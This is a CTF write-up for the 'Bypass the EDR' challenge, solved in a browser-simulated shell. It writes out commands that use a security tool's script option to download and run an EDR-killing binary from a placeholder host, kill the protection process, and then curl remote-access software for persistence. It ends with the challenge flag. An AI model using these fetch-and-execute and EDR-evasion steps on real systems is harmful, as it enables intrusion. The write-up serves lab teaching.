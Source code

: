 # O7: Bypass the EDR

## Problem Description
You cashed in your creds and now have initial access to a host in The Lucky Lion's internal network - one step closer to payday!! You better make sure you've got more than one way into this environment in case someone kicks you out - perhaps it would be prudent to download and install some remote management software for future use.

That might be easier said than done, though... you expect The Lucky Lion's security tools might give you trouble. Fortunately, another member of The Mound has written an EDR killer ("f4c3st4b") specific to the EDR you identified earlier. The only issue might be getting it on the host.

## Objectives
- Download AnyDesk on the victim machine

Required tools:
- Web Shell: `https://target-httpd.chals.io/shell/edr.html`
- AnyDesk SIMULATED LINK: `https://anydesk.com.example/downloads/anydesk.bin`
- "f4c3st4b" EDR Killer SIMULATED LINK: `https://github.com.example/the-mound/facestab/releases/download/v4.2.0/facestab`

**Note: The simulated links are not real and do not go anywhere.

## Approach and Solution
Whoo, what a doozy. I struggled a lot with this one, in large because all of the bash commands I was used to using just didn't exist or didn't work the way I expected them to. In this one case, my own competence was my biggest enemy.

First, let's talk about the web shell. It is completely simulated in the browser via JavaScript, which is how this CTF was able to handle hundreds of participants all mucking about on this one problem at the same time. Second, it is *extremely* bare bones. Pro tip: in a new Unix-based environment, always run the help command on everything. *EVERYTHING*. Running a quick `help` command in the shell gives us this:
![shell commands](img/o7-1.png)
Yes, that is every single command we have access to in this shell. All of them. Yep.

To me, what stands out the most immediately is that there are no options for file creation. We have a `mkdir` command, but no `touch` command or anything similar. Running `cat > example.txt` and `echo "sample text" > example.txt` also proved fruitless.
![no file creation](img/o7-2.png)

So, with no file creation, we must turn to the system for other answers. We explore the shell, and come up with several interesting things:
- narsh, located in `/bin`. This is us, the shell that we are in.
- cguard, located in `/usr/bin`
- cguardd (yes there are two), located in `/usr/bin`
- cguard.sentinel, located in `/var/lib`

Running `--help` on each of these turns up one interesting thing for cguard:
![cguard commands](img/o7-3.png)
cguard can be run as a command! More importantly, there is a `--script` option, which can download and run scripts.

Thus, we download facestab with this command:

`cguard --script https://github.com.example/the-mound/facestab/releases/download/v4.2.0/facestab`

...which then downloads the `facestab` file into the `/tmp` directory.

If we `cd` into `tmp` and run `./facestab -h`, we get this:

![facestab commands](img/o7-4.png)

So we now know that the usage of `facestab` relies on PIDs. Recall from the earlier `help` command that we do have access to a `ps` command! Running `ps --help` shows that there is a `-A` option, which we will attach to the ps command. Running `ps -A` gives us this:

![ps results](img/o7-5.png)

From prior knowledge, we know narsh is us (this shell). So that's not the PID we are looking for. Therefore we must be trying to kill PID 10.

But if we go into `/tmp` and run `./facestab -p 10`, we get an `invalid permissions` error. Our permissions aren't high enough!

This is where I got stuck the longest. Here's a short list of things I tried that didn't work:
1) tried to `chmod` literally anything. insufficient permissions.
2) tried to force `cat` to create a file.
3) tried to force `echo` to create a file.
4) tried to write my own script outside of the environment and download that with curl. (curl is completely blocked until we kill the EDR)
5) tried to download and run that script with cguard. (got a "try again" error)
6) tried to make a directory with 777 permissions and create files (didn't work because there is NO FILE CREATION)

...and so on, and so forth.

> A quick note of mild hilarity: I was working on this CTF while I was at Lollapalooza (yes the Chicago music festival). I had gotten to this point Thursday night, and then on Friday, at the festival, I got super bored (due to my friends wanting to wait nearly the entire day for a kpop group and me being unwilling to ditch them). So in lieu of having anything to do for like seven hours straight...I read the inspect page source code for this challenge. Like all of it. And that kind of ended up giving me the answer. So...I guess thank you, insane kpop fans, for inadvertently helping me finish this CTF?

From reading the source code (I will never forget the feeling of trying to do that on my literal phone), I discovered that the key point I was missing was hidden in the wording for `cguard` all along: it will download AND RUN scripts. So all I needed to do was redownload the script and attach the PID argument at the end. I hard refreshed the page to give me a clean environment, and then ran this:

`cguard --script https://github.com.example/the-mound/facestab/releases/download/v4.2.0/facestab -p 10`

and that returns `successfully killed 10`. And when we check, `cguard.sentinel` is gone! We have successfully killed the EDR.

From here, all we have to do is download Anydesk into the environment. There's only one catch: we need to do it in a directory where we have full read/write/execute permissions. Luckily, using `ls -l`, we see that we have `tmp` has 777 permissions.

![ls -l](img/o7-6.png)

So all we do is `cd` into `/tmp` one more time, and run curl:

`curl https://anydesk.com.example/downloads/anydesk.bin`

Once this is downloaded, we get the flag.

![flag found!](img/o7-7.png)

wicys2024{anydeskanytime}